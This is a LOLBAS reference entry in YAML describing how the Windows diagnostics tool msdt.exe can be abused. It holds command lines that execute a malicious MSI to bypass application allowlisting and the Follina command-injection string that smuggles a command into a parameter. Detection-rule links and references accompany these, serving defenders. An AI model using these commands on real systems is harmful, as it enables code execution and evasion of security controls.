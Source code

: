 ```yaml
---
Name: Msdt.exe
Description: Microsoft diagnostics tool
Author: 'Oddvar Moe'
Created: 2018-05-25
Commands:
  - Command: msdt.exe -path C:\WINDOWS\diagnostics\index\PCWDiagnostic.xml -af C:\PCW8E57.xml /skip TRUE
    Description: Executes the Microsoft Diagnostics Tool and executes the malicious .MSI referenced in the PCW8E57.xml file.
    Usecase: Execute code
    Category: Execute
    Privileges: User
    MitreID: T1218
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
    Tags:
      - Application: GUI
  - Command: msdt.exe -path C:\WINDOWS\diagnostics\index\PCWDiagnostic.xml -af C:\PCW8E57.xml /skip TRUE
    Description: Executes the Microsoft Diagnostics Tool and executes the malicious .MSI referenced in the PCW8E57.xml file.
    Usecase: Execute code bypass Application whitelisting
    Category: AWL Bypass
    Privileges: User
    MitreID: T1218
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
    Tags:
      - Application: GUI
  - Command: msdt.exe /id PCWDiagnostic /skip force /param "IT_LaunchMethod=ContextMenu IT_BrowseForFile=/../../$(calc).exe"
    Description: Executes arbitrary commands using the Microsoft Diagnostics Tool and leveraging the "PCWDiagnostic" module (CVE-2022-30190). Note that this specific technique will not work on a patched system with the June 2022 Windows Security update.
    Usecase: Execute code bypass Application allowlisting
    Category: AWL Bypass
    Privileges: User
    MitreID: T1202
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
    Tags:
      - Application: GUI
Full_Path:
  - Path: C:\Windows\System32\Msdt.exe
  - Path: C:\Windows\SysWOW64\Msdt.exe
Code_Sample:
  - Code: https://raw.githubusercontent.com/LOLBAS-Project/LOLBAS/master/OSBinaries/Payload/PCW8E57.xml
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/6199a703221a98ae6ad343c79c558da375203e4e/rules/windows/process_creation/proc_creation_win_lolbin_msdt_answer_file.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/c04bef2fbbe8beff6c7620d5d7ea6872dbe7acba/rules/windows/process_creation/proc_creation_win_msdt_arbitrary_command_execution.yml
  - Elastic: https://github.com/elastic/detection-rules/blob/414d32027632a49fb239abb8fbbb55d3fa8dd861/rules/windows/defense_evasion_network_connection_from_windows_binary.toml
Resources:
  - Link: https://web.archive.org/web/20160322142537/https://cybersyndicates.com/2015/10/a-no-bull-guide-to-malicious-windows-trouble-shooting-packs-and-application-whitelist-bypass/
  - Link: https://oddvar.moe/2017/12/21/applocker-case-study-how-insecure-is-it-really-part-2/
  - Link: https://twitter.com/harr0ey/status/991338229952598016
  - Link: https://twitter.com/nas_bench/status/1531944240271568896
Acknowledgement:
  - Person: Nasreddine Bencherchali
    Handle: '@nas_bench'
---
```

